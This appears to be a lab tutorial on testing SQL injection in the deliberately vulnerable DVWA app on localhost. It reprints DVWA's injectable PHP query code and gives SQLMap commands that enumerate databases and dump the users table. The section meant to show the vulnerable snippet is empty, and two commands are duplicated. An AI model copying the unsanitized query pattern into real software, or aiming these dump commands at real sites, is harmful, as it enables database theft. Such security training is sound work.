


# SQL Injection Vulnerability Testing with DVWA and SQLMap

## Introduction
SQL Injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows attackers to view data that they are not normally able to retrieve. This might include data belonging to other users or any other data that the application itself is able to access.

## Objective
This guide demonstrates how to use SQLMap, an automated tool for SQL injection and database takeover, to test for SQL injection vulnerabilities in the Damn Vulnerable Web Application (DVWA).


## Prerequisites
- A working installation of DVWA.
- SQLMap installed on your system.
- Apache and MySQL services running.
- Basic knowledge of SQL and command line usage.

## DVWA SQL Injection Source Code (Low Security Level)
The source code for the SQL injection vulnerability at the low security level in DVWA is as follows:

```php
<?php
if (isset($_REQUEST['Submit'])) {
    // Get input
    $id = $_REQUEST['id'];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die('<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>');

            // Get results
            while ($row = mysqli_fetch_assoc($result)) {
                // Get values
                $first = $row["first_name"];
                $last = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            mysqli_close($GLOBALS["___mysqli_ston"]);
            break;

        case SQLITE:
            global $sqlite_db_connection;

            $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            try {
                $results = $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception: ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row = $results->fetchArray()) {
                    // Get values
                    $first = $row["first_name"];
                    $last = $row["last_name"];

                    // Feedback for end user
                    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in fetch " . $sqlite_db->lastErrorMsg();
            }
            break;
    }
}
?>
```

## Code Snippet of the part of the code that makes it vulnerable


## SQLMap Usage

To use SQLMap for testing SQL injection on DVWA, follow these steps:

1. Verify Services:
   Ensure Apache and MySQL services are running:
   ```bash
   sudo systemctl start apache2
   sudo systemctl start mysql
   ```

2. Set DVWA Security Level:
Log in to DVWA and set the security level to "low".

3. Run SQLMap:
Use SQLMap to detect and exploit the SQL injection vulnerability.

- Check for SQL Injection:
  ```
  sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=your_session_id" --dbs
  ```

- List Databases:
  ```
  sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=your_session_id" --dbs
  ```

- List Tables in Database:
  ```
  sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=your_session_id" -D dvwa --tables
  ```

- List Columns in a Table:
  ```
  sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=your_session_id" -D dvwa -T users --columns
  ```

- Dump Data from a Table:
  ```
  sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=your_session_id" -D dvwa -T users --dump
  ```

## Observations from Testing

During the SQLMap testing, the following was observed:

- SQLMap successfully identified the `id` parameter as vulnerable to SQL injection.
- It used various techniques such as:
  - Boolean-based blind
  - Time-based blind
  - Error-based methods
  to confirm the vulnerability.
- SQLMap was able to:
  - List databases
  - List tables
  - List columns
  - Dump data from the `users` table

These observations demonstrate the effectiveness of SQLMap in detecting and exploiting SQL injection vulnerabilities in DVWA.